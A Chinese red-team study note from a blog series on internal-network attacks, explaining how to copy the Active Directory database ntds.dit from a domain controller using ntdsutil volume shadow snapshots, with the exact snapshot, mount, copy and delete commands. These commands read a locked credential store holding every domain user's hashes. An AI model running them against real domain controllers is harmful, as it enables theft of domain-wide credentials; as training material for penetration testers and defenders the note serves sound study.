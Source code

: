 ```yaml
---
title: 【内网学习笔记】26、ntds.dit 的提取与散列值导出
date: 2021-09-09 21:51:10
id: 210909-215110
img: https://cdn.jsdelivr.net/gh/teamssix/BlogImages/imgs/20210908155944.png
tags:
- 红队
- 学习笔记
- 内网
categories:
- 内网学习笔记
---
```


## 0、前言

在活动目录中，所有数据都保存在 ntds.dit 文件中，ntds.dit 是一个二进制文件，存储位置为域控的 %SystemRoot%\\ntds.dit

ntds.dit 中包含（但不限于）用户名、散列值、组、GPP、OU 等与活动目录相关的信息，因此如果我们拿到 ntds.dit 就能获取到域内所有用户的 hash

在通常情况下，即使拥有管理员权限，也无法读取域控中的 ntds.dit 文件（因为活动目录始终访问这个文件，所以文件被禁止读取），它和 SAM 文件一样，是被 Windows 操作系统锁定的。

不过使用 Windows 本地卷影拷贝服务，就可以获得文件的副本（类似于虚拟机的快照）

## 1、使用卷影拷贝服务提取 ntds.dit

### ntdsutil

ntdsutil 是一个为活动目录提供管理机制的命令行工具，使用 ntdsutil 可以维护和管理活动目录数据库、控制单个主机操作、创建应用程序目录分区、删除由未使用活动目录安装向导（DCPromo.exe）成功降级的与控制器留下的元数据等。

该工具默认安装在域控上，使用以下命令创建一个快照，该快照包含 Windows 中的所有文件，且在复制文件时不会受到 Windows 锁定机制的限制。

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

加载刚刚创建的快照

```
ntdsutil snapshot "mount {ce2f5901-022f-4c21-b266-b4c14db67749}" quit quit
```

使用 copy 命令将快照中的文件复制到 C 盘下

```
copy C:\$SNAP_202109081356_VOLUMEC$\windows\NTDS\ntds.dit C:\ntds.dit
```

删除之前加载的快照

```
ntdsutil snapshot "unmount {ce2f5901-022f-4c21-b266-b4c14db67749}" "delete {ce2f5901-022f-4c21-b266-b4c14db67749}" quit quit
```

